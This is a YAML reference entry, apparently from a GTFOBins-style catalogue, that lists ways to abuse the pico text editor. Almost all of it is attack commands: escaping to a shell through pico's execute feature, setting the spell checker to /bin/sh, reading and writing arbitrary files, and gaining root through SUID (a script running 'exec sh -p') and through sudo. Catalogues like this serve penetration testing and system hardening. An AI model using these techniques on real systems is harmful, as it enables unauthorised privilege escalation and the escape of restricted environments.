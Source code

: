 ```yaml
---
functions:
  shell:
    - code: |
        pico
        ^R^X
        reset; sh 1>&0 2>&0
    - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
      code: |
        pico -s /bin/sh
        /bin/sh
        ^T
  file-write:
    - code: |
        pico file_to_write
        DATA
        ^O
  file-read:
    - code: pico file_to_read
  suid:
    - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
      code: |
        TF=$(mktemp)
        echo '#!/bin/sh -p
        exec sh -p' > $TF
        chmod +x $TF
        ./pico -s $TF /etc/hosts
        ^T
  sudo:
    - code: |
        sudo pico
        ^R^X
        reset; sh 1>&0 2>&0
---
```

